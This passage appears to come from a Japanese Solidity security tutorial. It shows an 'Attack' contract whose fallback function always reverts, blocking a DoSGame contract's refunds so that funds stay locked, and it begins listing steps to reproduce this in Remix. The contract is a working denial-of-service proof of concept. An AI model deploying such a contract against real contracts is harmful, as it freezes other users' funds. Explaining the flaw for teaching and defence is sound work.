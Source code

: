 以下は攻撃コントラクトです。`attack()`関数で`DoSGame`コントラクトの`deposit()`を呼び出して預金しゲームに参加します。`fallback()`コールバック関数は、このコントラクトにETHを送信するすべてのトランザクションを拒否し、`DoSGame`コントラクトのDoS脆弱性を攻撃します。すべての返金が正常に実行されず、資金がコントラクト内にロックされます。これはAkutarコントラクトの1万枚以上のETHと同じ状況です。

```solidity
contract Attack {
    // 返金時にDoS攻撃を実行
    fallback() external payable{
        revert("DoS Attack!");
    }

    // DoSゲームに参加して預金
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## `Remix`での再現

**1.** `DoSGame`コントラクトをデプロイします。
**2.** `DoSGame`コントラクトの`deposit()`を呼び出し、預金してゲームに参加します。